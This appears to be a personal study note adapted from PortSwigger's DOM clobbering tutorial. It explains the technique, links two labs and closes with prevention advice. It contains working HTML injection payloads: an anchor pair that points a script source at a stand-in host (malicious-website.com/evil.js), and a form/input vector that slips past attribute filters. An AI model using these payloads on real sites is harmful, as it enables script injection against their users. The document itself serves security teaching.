 Parent Links : [[DOM-based vulnerabilities]]

# DOM clobbering

In this section, we will describe what DOM clobbering is, demonstrate how you can exploit DOM vulnerabilities using clobbering techniques, and suggest ways you can reduce your exposure to DOM clobbering attacks.

## What is DOM clobbering?

DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page. DOM clobbering is particularly useful in cases _`where` [[Cross-site scripting | XSS]] `is not possible`_, but you can control some HTML on a page where the attributes `id` or `name` are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.

The term clobbering comes from the fact that you are "clobbering" a global variable or property of an object and overwriting it with a [DOM node](https://www.w3schools.com/js/js_htmldom_nodes.asp) or [HTML collection](https://www.w3schools.com/jsref/dom_obj_htmlcollection.asp) instead. 
>For example, you can use DOM objects to overwrite other JavaScript objects and exploit unsafe names, such as `submit`, to interfere with a form's actual `submit()` function.


## How to exploit DOM-clobbering vulnerabilities

A common pattern used by JavaScript developers is:

>`var someObject = window.someObject || {};`

If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor. Consider the following code:

```js 
<script>  
  window.onload = function(){  
    let someObject = window.someObject || {};  
    let script = document.createElement('script');  
    script.src = someObject.url;  
    document.body.appendChild(script);  
  };  
</script>
```

To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:

```html 
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```

As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the `someObject` reference with this DOM collection. A `name` attribute is used on the last anchor element in order to clobber the `url` property of the `someObject` object, which points to an external script.

>LAB [Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering) Not solved

Another common technique is to use a `form` element along with an element such as `input` to clobber DOM properties. For example, clobbering the `attributes` property enables you to bypass client-side filters that use it in their logic. Although the filter will enumerate the `attributes` property, it will not actually remove any attributes because the property has been clobbered with a DOM node. As a result, you will be able to inject malicious attributes that would normally be filtered out. For example, consider the following injection:

>`<form onclick=alert(1)><input id=attributes>Click me`

In this case, the client-side filter would traverse the DOM and encounter a whitelisted `form` element. Normally, the filter would loop through the `attributes` property of the `form` element and remove any blacklisted attributes. However, because the `attributes` property has been clobbered with the `input` element, the filter loops through the `input` element instead. As the `input` element has an undefined length, the conditions for the `for` loop of the filter (for example `i<element.attributes.length`) are not met, and the filter simply moves on to the next element instead. This results in the `onclick` event being ignored altogether by the filter, which subsequently allows the `alert()` function to be called in the browser.

>LAB [Clobbering DOM attributes to bypass HTML filters](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)


## How to prevent DOM-clobbering attacks

In the simplest terms, you can prevent DOM-clobbering attacks by implementing checks to make sure that objects or functions are what you expect them to be. For instance, you can check that the attributes property of a DOM node is actually an instance of `NamedNodeMap`. This ensures that the property is an attributes property and not a clobbered HTML element.

You should also avoid writing code that references a global variable in conjunction with the logical OR operator `||`, as this can lead to DOM clobbering vulnerabilities.

In summary:

-   Check that objects and functions are legitimate. If you are filtering the DOM, make sure you check that the object or function is not a DOM node.
-   Avoid bad code patterns. Using global variables in conjunction with the logical OR operator should be avoided.
-   Use a well-tested library, such as DOMPurify, that accounts for DOM-clobbering vulnerabilities